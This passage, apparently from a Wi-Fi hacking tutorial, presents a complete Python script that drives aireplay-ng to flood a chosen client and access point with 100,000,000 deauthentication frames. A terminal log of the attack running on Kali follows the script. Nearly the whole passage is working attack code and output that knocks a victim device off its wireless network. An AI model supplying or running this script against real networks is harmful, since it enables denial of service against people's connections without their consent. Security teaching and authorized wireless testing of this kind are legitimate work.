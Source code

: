 - Let's write down a Python script to automate this process of deauthentication attack. The script will take the wireless interface name, target client MAC address, and gateway (AP) MAC address as input and perform the deauthentication attack.

    ```python
    # Deauthentication Attack Script
    # This script performs a deauthentication attack on a specified Wi-Fi network.

    import os
    import subprocess
    def deauth_attack(interface, target_mac, gateway_mac):
        print(f"[+] Starting deauthentication attack on {target_mac} via {gateway_mac} using {interface}")
        
        # Construct the command for the deauthentication attack
        command = [
            "sudo", "aireplay-ng", "--deauth", "100000000", "-a", gateway_mac, "-c", target_mac, interface
        ]
        
        # Execute the command
        subprocess.call(command)
        
        
    # Example usage
    if __name__ == "__main__":
        # Fetch the interface name using iwconfig command
        interface = input("Enter the interface name (e.g., wlan0): ")
        target_mac = input("Enter the target MAC address (victim): ")
        gateway_mac = input("Enter the gateway (AP) MAC address: ")
        print(f"[+] Initiating Deauthentication attack on {target_mac} via {gateway_mac} using {interface}")
        deauth_attack(interface, target_mac, gateway_mac)
        print("[+] Deauthentication attack completed")
        
    ```

    Python Script logs:

    ```bash
    (.venv) root@kali:~/PycharmProjects/hacking-tutorial# python deauth_attack.py 
    Enter the interface name (e.g., wlan0): wlan0
    Enter the target MAC address (victim): MOBILE_MAC
    Enter the gateway (AP) MAC address: WIFI_MAC
    [+] Initiating Deauthentication attack on MOBILE_MAC via WIFI_MAC using wlan0
    [+] Starting deauthentication attack on MOBILE_MAC via WIFI_MAC using wlan0
    23:31:45  Waiting for beacon frame (BSSID: WIFI_MAC) on channel 36
    23:31:45  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [51|69 ACKs]
    23:31:46  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    23:31:47  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    23:31:47  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    ```
